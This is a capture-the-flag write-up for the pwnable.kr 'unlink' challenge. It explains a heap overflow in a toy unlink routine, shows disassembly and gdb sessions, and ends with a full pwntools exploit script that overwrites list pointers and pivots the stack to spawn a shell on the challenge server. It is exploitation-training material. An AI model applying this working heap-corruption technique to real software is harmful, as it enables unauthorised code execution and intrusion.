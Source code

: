 ## Description
unlink - 10 pt [writeup]

> Daddy! how can I exploit unlink corruption?
>
> ssh unlink@pwnable.kr -p2222 (pw: guest)

## Solution
So we are given a binary file `unlink`, and it's source code `unlink.c`.
At first, let's look at the binary file:
```shell
$ file unlink
unlink: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3b89c9c89761e7ff1727d2ed9cf0117d3313a370, not stripped
$ checksec unlink
[*] './unlink'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Now let's take a look at the source code:
### unlink.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

As we can see, the program is allocating 3 objects on the heap, and then it creates a double linked.\
It prints the address of the pointer to the first object on the stack, and the address of the first object on the heap.\
Then the `gets` function is called on the buffer of the first object, which means we have a heap overflow.
And we are clearly told to exploit the `unlink` function using the heap overflow.

Let's take a look at the `unlink` function. Which should be familier to the `unlink` function from the `glibc` library.\
It's purpose is to remove an object from a double linked list.\
Just like the `glibc` function, it takes a pointer to the object to remove, and it removes it from the list by changing the pointers of the objects before and after it.\
The function is implemented as follows:
```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

So let's look at the code of `unlink()` in the context of `unlink(B);`.

`BK` is pointing to `A`, and `FD` is pointing to `C`.\
Then `FD->bk=BK`, is executed, meaning `BK` is moved to `FD`.\
After that, `BK->fd=FD` is executed, meaning `FD` is moved to `BK+4`.

So to conclude, here is a simplified version of `unlink`:
```c
unlink(B):
    BK = B+4
    FD = B
    *(FD+4) = BK
    *(BK) = FD
```

Ok so now we know how the `unlink` function works, let's try to exploit it.\
We control the content of the buffer of A, but we have an overflow, so we also control the content of B.\
Meaning we can control the content of `BK` and `FD`.\
So how can we use this to get a shell?

We somehow need to hijack the execution and get it to run the `shell()` function.\

Lets look at the disassembly of main:
```shell
   ....
   0x080485e4 <+181>:	call   0x8048390 <gets@plt>
   0x080485e9 <+186>:	add    esp,0x10
   0x080485ec <+189>:	sub    esp,0xc
   0x080485ef <+192>:	push   DWORD PTR [ebp-0xc]
   0x080485f2 <+195>:	call   0x8048504 <unlink>
   0x080485f7 <+200>:	add    esp,0x10
   0x080485fa <+203>:	mov    eax,0x0
   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048602 <+211>:	leave  
   0x08048603 <+212>:	lea    esp,[ecx-0x4]
   0x08048606 <+215>:	ret    
```

We can see right at the end some interesting dereferencing of `%ecx-0x4`.
After the `unlink` function is called, the value stored in `%ebp-0x4` is moved to `%ecx`, then the value stored in `%ecx-0x4` is moved to `%esp`.
And then the `ret` opcode is called, which pops the address stored in `%esp` and saves it to `%eip`. Which means the execution will continue from the address stored in `%esp`.\
So if we change the value of `%ebp-0x4` to point to the heap, where we store a pointer to `shell()`, we can hijack the execution.

Let's explain it more thoroughly.\
We know we can write to `%ebp-0x4`, so we can control the contents of `%ecx`.\
Suppose we have the address of `shell()` stored in the address `AHEAP+8`, lets examine what will happen if we write to `%ebp-0x4` the value `AHEAP+12`.\
`AHEAP+12` is moved to `%ecx`, then the value `AHEAP+12 - 0x4` is moved to `%esp`, which is exactly the value `AHEAP+8`.\
Then the `ret` opcode reads an address from the address stored on `%esp`, which is now `AHEAP+8`, and stores it into `%eip`.\
Which is exactly what we wanted! Now `%eip` has the address of `shell()`.

Now let's do some calculations.\
and keep in mind that we have a stack and a heap leak.\

```shell
$ gdb ./unlink
pwndbg> r
Starting program: unlink 
....
here is stack address leak: 0xff94df74
here is heap address leak: 0x8b005b0
pwndbg> p $ebp-4-0xff94df74
$3 = (void *) 0x10
pwndbg> p shell
$4 = {<text variable, no debug info>} 0x80484eb <shell>
```
So `%ebp-4` is the address of the stack leak + `0x10`.\
Also, The address of `shell()` is `0x80484eb`.\

Now we can finally write our exploit:
```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'i386'
# context.binary = './unlink'

SHELL_ADDR = 0x80484eb

shell = ssh('unlink', 'pwnable.kr', password='guest', port=2222)
p = shell.process('./unlink')

print(a := p.recvuntil(b"\n").decode().strip())
print(b := p.recvuntil(b"\n").decode().strip())
print(p.recvuntil(b"\n").decode().strip())

PTR = int(a.split(':')[1], 16)  # the address of `OBJ* A` on the stack
AHEAP = int(b.split(':')[1], 16)  # the address of `OBJ A` on the heap.

payload = [
	p32(SHELL_ADDR),
	b"A"*12,
	p32(AHEAP+12),  # B.fd
    p32(PTR+0x10),  # B.bk
]
payload = b''.join(payload)
log.info("Sending payload:")
log.info(f"{payload}")

p.send(payload + b'\n')

p.interactive()
```
Yay! We get a shell! 🥳🥳

Notice that on the pwn server, the size of a pointer is 4 bytes, therefore the size of struct `OBJ` is 16 bytes. So the padding needed is 12 bytes.\
That wasn't the case on my local machine which is 64 bit, so I had to change the padding to 20 bytes. Which caused me a lot of trouble at first.

## Setup
```shell
mkdir unlink && scp -P2222 unlink@pwnable.kr:* ./unlink # Download the files from the server
```
